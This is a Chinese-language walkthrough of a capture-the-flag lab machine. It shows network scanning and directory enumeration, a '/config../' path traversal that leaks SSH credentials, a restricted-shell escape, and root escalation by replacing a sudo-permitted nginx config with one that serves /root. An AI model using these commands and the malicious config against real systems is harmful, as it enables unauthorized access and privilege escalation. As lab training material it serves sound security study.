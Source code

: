 # **一、信息收集**

## 1. 主机发现

首先，在本地网络中使用 `arp-scan` 工具进行主机发现，确定目标靶机的 IP 地址为 `192.168.205.241`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.241 08:00:27:31:f6:a3       PCS Systemtechnik GmbH
...
```

## 2. 端口与服务扫描

使用 `nmap` 对目标主机进行全端口扫描，发现其开放了 22 (SSH) 和 80 (HTTP) 两个端口。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.241
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-04 07:27 EDT
Nmap scan report for 192.168.205.241
Host is up (0.000094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:31:F6:A3 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
```

## 3. Web目录枚举与漏洞发现

访问 80 端口是一个静态网页，没有可交互的功能。使用 `gobuster` 进行目录爆破，发现了一个 `/config` 目录。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.241 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 64
...
/config               (Status: 301) [Size: 169] [--> http://192.168.205.241/config/]
...
```

对 `/config/` 目录进行深度爆破未果。在尝试多种路径后，发现 Web 服务器存在目录穿越漏洞，通过访问 `/config../` 可以跳出当前 Web 根目录的限制。利用此漏洞，我们继续对上层目录进行爆破。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.241/config../ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 64
...
/config.txt           (Status: 200) [Size: 41]
...
```

成功发现了一个名为 `config.txt` 的敏感文件。

# **二、初始访问**

## 1. 凭证获取

使用 `curl` 读取通过目录穿越漏洞发现的 `config.txt` 文件，成功获取到一组 SSH 登录凭证。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.241/config../config.txt
SSH Credentials: mikannse/mikannsebyebye
```

凭证为 `mikannse:mikannsebyebye`。

## 2. SSH登录与Shell逃逸

利用获取到的凭证成功登录 SSH。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh mikannse@192.168.205.241
```

登录后发现当前 Shell 是一个受限环境（类似于 `less` 或 `more`），无法直接执行命令。在这种环境下，可以通过 `less` 的内部命令 `!` 来执行外部 Shell 命令。输入 `!/bin/bash` 成功获得一个标准的 Bash Shell。

# **三、权限提升**

## 1. Sudo权限分析

获得初始 Shell 后，首先查看当前用户 `mikannse` 的家目录，并读取 `user.txt` 获得第一个 flag。

```bash
mikannse@Config:~$ ls -al
total 36
drwx------ 2 mikannse mikannse 4096 Jul  5 00:50 .
drwxr-xr-x 3 root     root     4096 Jul  4 23:36 ..
-rw-r--r-- 1 mikannse mikannse  175 Jul  4 23:37 banner.txt
lrwxrwxrwx 1 root     root        9 Jul  4 23:40 .bash_history -> /dev/null
-rw-r--r-- 1 mikannse mikannse  220 Jul  4 23:36 .bash_logout
-rw-r--r-- 1 mikannse mikannse 3526 Jul  4 23:36 .bashrc
-rw------- 1 mikannse mikannse   33 Jul  5 00:50 .lesshst
-rw-r--r-- 1 root     root      551 Jul  5 00:50 mikannse.conf
-rw-r--r-- 1 mikannse mikannse  847 Jul  4 23:38 .profile
-rw-r--r-- 1 root     root       48 Jul  4 23:37 user.txt
mikannse@Config:~$ cat user.txt 
flag{user-530773d6-5951-11f0-89d9-836ccaf94d6b}
```

注意到其中有一个 `root` 用户所有的配置文件 `mikannse.conf`。接着，执行 `sudo -l` 查看当前用户的 `sudo` 权限。

```bash
mikannse@Config:~$ sudo -l
Matching Defaults entries for mikannse on Config:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mikannse may run the following commands on Config:
    (root) NOPASSWD: /usr/sbin/nginx -c /home/mikannse/mikannse.conf
```

结果显示，`mikannse` 用户可以无密码以 `root` 权限执行 `nginx` 命令，并强制使用 `/home/mikannse/mikannse.conf`作为配置文件。

## 2. Nginx配置劫持提权

虽然我们无法直接写入由 `root` 拥有的 `mikannse.conf` 文件，但该文件位于我们的家目录 `/home/mikannse` 下，这意味着我们对该目录有写权限。因此，我们可以先将原文件重命名或删除，然后创建一个同名的恶意配置文件来劫持 `sudo` 执行流程。

**提权步骤:**

1.  将原始的 `mikannse.conf` 文件重命名，以作备份。
2.  创建一个新的 `mikannse.conf` 文件。
3.  在新配置文件中，配置 Nginx 启动一个新的 Web 服务（例如在 8081 端口），其根目录指向 `/root` 目录，并开启目录列表功能 (`autoindex on`)。

```bash
# 移动原配置文件
mikannse@Config:~$ mv /home/mikannse/mikannse.conf a

# 创建并写入恶意配置文件
mikannse@Config:~$ vim mikannse.conf 
mikannse@Config:~$ cat mikannse.conf
user root;
worker_processes auto;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    server {
        listen       8081;          
        server_name  Config;     
        
        # 关键配置：将/files路径映射到/root/目录
        location /files {
            alias /root/;
            autoindex on; # 开启目录浏览
        }
    }
}
```

4.  使用 `sudo` 执行 Nginx 命令，使其以 `root` 权限加载我们的恶意配置。

```bash
mikannse@Config:~$ sudo /usr/sbin/nginx -c /home/mikannse/mikannse.conf
```

执行后，Nginx 会在后台以 `root` 身份启动一个监听 8081 端口的 Web 服务，该服务会将 `/root` 目录的内容暴露出来。

# **四、夺取旗帜**

回到攻击机，使用 `curl` 访问目标靶机 `192.168.205.241` 的 8081 端口。

首先，访问 `/files/` 路径，由于开启了 `autoindex`，服务器会列出 `/root` 目录下的所有文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.241:8081/files/
<html>
<head><title>Index of /files/</title></head>
<body>
<h1>Index of /files/</h1><hr><pre><a href="../">../</a>
<a href="root.txt">root.txt</a>                                           05-Jul-2025 03:54                  48
</pre><hr></body>
</html>
```

在列表中我们看到了 `root.txt` 文件。接着直接读取该文件，获得最终的 root flag。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.241:8081/files/root.txt
flag{root-bf116e68-5953-11f0-b06c-63e27ce93d04}
```

至此，user 和 root 两个 flag 均已获取，渗透测试完成。